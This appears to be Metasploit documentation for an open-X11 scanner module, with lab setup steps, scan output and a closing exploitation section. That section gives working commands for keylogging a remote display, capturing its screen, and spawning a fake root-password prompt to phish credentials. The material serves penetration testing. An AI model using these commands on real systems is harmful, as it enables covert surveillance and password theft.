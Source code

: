 ## Vulnerable Application

X11 (X Window System) is a graphical windowing system most common on unix/linux, although implementations may be found in windows
with software such as Hummingbird Exceed X Server.  The service can accept connections from any users when misconfigured
which is done with the command `xhost +`.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

## Verification Steps

  1. Install and configure X11
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/x11/open_x11`
  4. Do: `set rhosts [IPs]`
  5. Do: `run`

## Scenarios

  A run against Ubuntu 14.04 (192.168.2.75), Ubuntu 16.04 (192.168.2.26), and Solaris 10 (192.168.2.32)

  ```
    msf > use auxiliary/scanner/x11/open_x11 
    msf auxiliary(open_x11) > set rhosts 192.168.2.75 192.168.2.26
    rhosts => 192.168.2.75 192.168.2.26
    msf auxiliary(open_x11) > run
    
    [+] 192.168.2.75:6000     - 192.168.2.75 Open X Server (The X.Org Foundation)
    [*] Scanned 1 of 3 hosts (33% complete)
    [+] 192.168.2.26:6000     - 192.168.2.26 Open X Server (The X.Org Foundation)
    [*] Scanned 2 of 3 hosts (66% complete)
    [+] 192.168.2.32:6000     - 192.168.2.32 Open X Server (Sun Microsystems, Inc.)
    [*] Auxiliary module execution completed
  ```

## Confirming

The following are other industry tools which can also be used.

### [nmap](https://nmap.org/nsedoc/scripts/x11-access.html)

```
# nmap -p 6000 --script=x11-access 192.168.2.26,75

Starting Nmap 7.40 ( https://nmap.org ) at 2017-04-23 13:15 EDT
Nmap scan report for ubuntu-desktop-16 (192.168.2.26)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:60:27:F9 (VMware)

Nmap scan report for ubuntu-desktop-14 (192.168.2.75)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:0E:C4:6E (VMware)
```

### xdpyinfo

This is one of the standard linux tools to get info on an X display.

```
# xdpyinfo -display 192.168.2.75:0 | head -n 5

name of display:    192.168.2.75:0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    11803000
X.Org version: 1.18.3
```

## Exploitation

Exploiting this mis-configuration has several methods.  The target can have their display viewed, keystrokes logged, and potential keyboard typed.

### Keylogging

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

`xspy -display [ip]:0`

### Screen Monitoring

#### Entire Display

It is possible to monitor the entire display (all windows) and view the content.

 - Take a screenshot: `xwd -root -display [ip]:[display] -out xdump.xdump`
 - View screenshot: `display xdump.xdump` or `xwud -in xdump.xdump`

#### Specific Window

To monitor only a single window (a terminal for instance)

First, we need to determine which windows are available and what their processes are:

 - `xwininfo -tree -root -display [ip]:0`
 
Once you determine which window you want to monitor, you'll want to use the `windowID`.  Now use the application `xwatchwin`

 - `xwatchwin [ip]:0 -w [windowID]`

### Social Engineering

Obviously watching keystrokes is good, but we want to coax the user into providing their password.  We can do this by using xterm to display a login box to the user.

This was tested against Ubuntu 12.04, 14.04, 16.04 and Solaris 10.

1. start `xspy`
2. `xterm -T "Root Permission Required" -display [ip]:0 -e "echo -e -n 'root password: '; read passwd; echo 'Authentication Failure'; echo -e -n 'root password: '; read passwd"`
  - Notice it asks twice for the password incase of a mistyped initial password.  This can also be adjusted to just say password or the real user's username
  - The victim's typed text by the user will not be masked (*)

### Direct Exploitation

Use `exploits/unix/x11/x11_keyboard_exec`
